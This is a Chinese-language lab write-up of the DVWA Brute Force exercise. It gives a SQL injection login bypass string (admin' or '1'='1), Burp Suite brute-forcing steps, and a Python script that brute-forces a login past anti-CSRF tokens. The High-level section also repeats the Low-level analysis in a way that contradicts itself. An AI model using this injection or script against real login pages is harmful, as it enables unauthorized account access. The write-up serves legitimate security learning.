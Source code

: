 ```yaml
---
title:      "Brute Force ---dvwa"
description: "主要用来记录dvwa靶场 中 暴力 破解方式"
author:     "伍帆"
date: 2022-06-29
image: "/img/home-bg.jpg"
published: true
tags:
    - 靶场
    - dvwa
URL: "/2022/6/brute force/"
categories: [ "网安" ]
---
```


##  Brute Force简介
>Brute Force，即暴力（破解），是指黑客利用密码字典，使用穷举法猜解出用户口令，是现在最为广泛使用的攻击手法之一


## LOW 级别破解
>查看源代码
![blind](/img/BruteForce/low.png)
> 可以看到，服务器只是验证了参数Login是否被设置（isset函数在php中用来检测变量是否设置，该函数返回的是布尔类型的值，即true/false），没有任何的防爆破机制，且对参数username、password没有做任何过滤，存在明显的sql注入漏洞。
### 利用burpsuite进行爆破

#### 1.抓包
![blind](/img/BruteForce/1-1.png)
![blind](/img/BruteForce/1-2.png)

#### 2.intruder模块进行爆破
![blind](/img/BruteForce/1-3.png)

#### 3.选中Payloads
![blind](/img/BruteForce/1-4.png)
#### 4. 进行爆破
    尝试在爆破结果中找到正确的密码，可以看到password的响应包长度（length）“与众不同”，可推测password为正确密码，手工验证登陆成功。
![blind](/img/BruteForce/1-5.png)

### 使用手工注入的方式
输入username:`admin' or '1'='1`
不输入password:
![blind](/img/BruteForce/1-6.png)

## Medium 级别破解
>查看源代码
![blind](/img/BruteForce/medium.png)
> 相比Low级别的代码，Medium级别的代码主要增加了mysql_real_escape_string函数，这个函数会对字符串中的特殊符号（x00，n，r，，’，”，x1a）进行转义，基本上能够抵御sql注入攻击，说基本上是因为查到说 MySQL5.5.37以下版本如果设置编码为GBK，能够构造编码绕过mysql_real_escape_string 对单引号的转义（因实验环境的MySQL版本较新，所以并未做相应验证）；同时，$pass做了MD5校验，杜绝了通过参数password进行sql注入的可能性。但是，依然没有加入有效的防爆破机制（sleep(2)实在算不上）。
    
    虽然sql注入不再有效，但依然可以使用Burpsuite进行爆破，与Low级别的爆破方法基本一样，这里就不赘述了。
## High 级别破解
>查看源代码
![blind](/img/BruteForce/high.png)
> 可以看到，服务器只是验证了参数Login是否被设置（isset函数在php中用来检测变量是否设置，该函数返回的是布尔类型的值，即true/false），没有任何的防爆破机制，且对参数username、password没有做任何过滤，存在明显的sql注入漏洞。
High级别的代码加入了Token，可以抵御CSRF攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：username、password、Login以及user_token。
> ![blind](/img/BruteForce/3-1.png)
> High级别的代码中，使用了stripslashes（去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个）、 mysql_real_escape_string对参数username、password进行过滤、转义，进一步抵御sql注入

由于加入了Anti-CSRFtoken预防无脑爆破，这里就不推荐用Burpsuite了，还是简单用python写个脚本吧。
```python
from bs4 import BeautifulSoup
import urllib2
header={        'Host': '192.168.153.130',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'}
requrl = "http://192.168.153.130/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] #get the user_token
	return user_token

user_token = get_token(requrl,header)
i=0
for line in open("rkolin.txt"):
	requrl = "http://192.168.153.130/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
	i = i+1
	print i,'admin',line.strip(),
	user_token = get_token(requrl,header)
	if (i == 10):
		break
```
    get_token的功能是通过python的BeautifulSoup库从html页面中抓取user_token的值，
    为了方便展示，这里设置只尝试10次。

运行脚本时的Burpsuite截图
![blind](/img/BruteForce/3-2.png)
打印的结果从第二行开始依次是序号、用户名、密码、http状态码以及返回的页面长度。
![blind](/img/BruteForce/3-3.png)
对比结果看到，密码为password时返回的长度不太一样，手工验证，登录成功，爆破完成。